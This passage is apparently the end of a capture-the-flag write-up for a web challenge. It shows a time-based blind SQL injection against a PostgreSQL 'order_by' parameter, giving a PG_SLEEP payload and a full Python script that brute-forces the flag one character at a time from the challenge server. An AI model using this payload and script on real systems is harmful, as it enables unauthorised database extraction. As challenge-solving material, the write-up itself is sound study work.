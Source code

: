 After sending the above request, we got a delay, so it means that the special pokemon is available

Next step, we need to find which column stores the flag string (In this case, the column containing the flag is “description”)

```sql
desc; (SELECT (CASE WHEN (SELECT description from pokemon where is_special='true' limit 1 offset 0) like '%WhiteHat%' THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
```

Finally I wrote a python script to brute-force the flag

```python
import requests
from itertools import permutations

burp0_url = "http://164.92.81.231:9036/search?query=pi&order_by=desc%3b(SELECT%20(CASE%20WHEN%20(SELECT%20length(name)%20from%20pokemon%20where%20is_special%3d'true'%20limit%201%20offset%200)%20%3d%2024%20THEN%20PG_SLEEP(3)%20ELSE%20PG_SLEEP(0)%20END))--"
burp0_headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://164.92.81.231:9036/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
response=requests.get(burp0_url, headers=burp0_headers)
print(response.elapsed.total_seconds())
des_sentence="%WhiteHat{"
char="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789}_"
d=0
while(1):
    while(d<30):
        for i in char:
            test_des_sentence= des_sentence+i
            query_payload="(SELECT (CASE WHEN (SELECT description from pokemon where is_special='true' limit 1 offset 0) like '"+test_des_sentence+"%"+"' THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--"
            full_query="http://164.92.81.231:9036/search?query=pi&order_by=desc; "+query_payload
            print(full_query)
            response=requests.get(full_query, headers=burp0_headers)
            if(response.elapsed.total_seconds()>=3):
                des_sentence=test_des_sentence
                break
        print(des_sentence)
        d+=1
```

![Untitled](WhitehatPlay11%20-%20Web%20b069cda417f4481997735214faf64af9/Untitled%2023.png)

Final flag is: WhiteHat{I_w4s_made_4_sunny_d4ys}
### Reference:

- [https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md).
